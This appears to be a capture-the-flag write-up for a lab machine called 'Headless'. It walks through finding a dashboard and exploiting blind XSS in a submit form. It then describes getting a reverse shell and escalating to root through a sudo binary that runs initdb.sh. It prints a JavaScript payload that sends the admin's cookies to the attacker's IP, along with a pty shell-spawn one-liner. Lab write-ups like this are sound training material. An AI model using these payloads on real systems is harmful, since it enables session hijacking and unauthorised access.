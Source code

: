```yaml
---
description: python3 -c 'import pty; pty.spawn("/bin/bash")'
---
```


# Headless

## Site enumeration

On the site there is only a countdown but using ffuf we find a dashboard directory with a submit form feature lets try command injection.

<figure><img src="../.gitbook/assets/image (15).png" alt=""><figcaption></figcaption></figure>

This quite interesting and seems to have the potential to be a blind XSS injection. Lets test that theory....

And yes we are able to insert a source attribute that pings our nc server. We will now attempt to steal the admins cookies. We will do this by inserting the JS code.

```
new Image().src='http://10.10.16.5/index?c='+document.cookie
```

And now we have the admins cookie and can access the dashboard as admin!!

## Priv esc

If we play around we can get command execution on the box using this setup...

<figure><img src="../.gitbook/assets/image (14).png" alt=""><figcaption></figcaption></figure>

We can use this to get a reverse shell. Once we are in we run sudo -l and see we can run this binary as root.

<figure><img src="../.gitbook/assets/image (16).png" alt=""><figcaption></figcaption></figure>

Lets analyise it. It seema it will run initdb.sh as root if we create the file in our home directory. So all we need to do is create the file and insert a simple reverse shell into it. And we get root!!

PWNDDDD

